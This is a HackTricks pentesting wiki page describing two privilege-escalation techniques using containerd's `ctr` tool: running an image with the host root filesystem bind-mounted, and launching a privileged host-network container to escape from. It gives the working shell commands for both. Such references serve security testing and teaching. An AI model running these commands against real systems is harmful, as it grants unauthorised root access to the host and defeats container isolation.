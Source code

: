 # Containerd (ctr) Privilege Escalation

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Basic information

Go to the following link to learn **what is containerd** and `ctr`:

{% content-ref url="../../network-services-pentesting/2375-pentesting-docker.md" %}
[2375-pentesting-docker.md](../../network-services-pentesting/2375-pentesting-docker.md)
{% endcontent-ref %}

## PE 1

if you find that a host contains the `ctr` command:

```bash
which ctr
/usr/bin/ctr
```

You can list the images:

```bash
ctr image list
REF                                  TYPE                                                 DIGEST                                                                  SIZE      PLATFORMS   LABELS 
registry:5000/alpine:latest application/vnd.docker.distribution.manifest.v2+json sha256:0565dfc4f13e1df6a2ba35e8ad549b7cb8ce6bccbc472ba69e3fe9326f186fe2 100.1 MiB linux/amd64 -      
registry:5000/ubuntu:latest application/vnd.docker.distribution.manifest.v2+json sha256:ea80198bccd78360e4a36eb43f386134b837455dc5ad03236d97133f3ed3571a 302.8 MiB linux/amd64 -      
```

And then **run one of those images mounting the host root folder to it**:

```bash
ctr run --mount type=bind,src=/,dst=/,options=rbind -t registry:5000/ubuntu:latest ubuntu bash
```

## PE 2

Run a container privileged and escape from it.\
You can run a privileged container as:

```bash
 ctr run --privileged --net-host -t registry:5000/modified-ubuntu:latest ubuntu bash
```

Then you can use some of the techniques mentioned in the following page to **escape from it abusing privileged capabilities**:

{% content-ref url="docker-security/" %}
[docker-security](docker-security/)
{% endcontent-ref %}

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

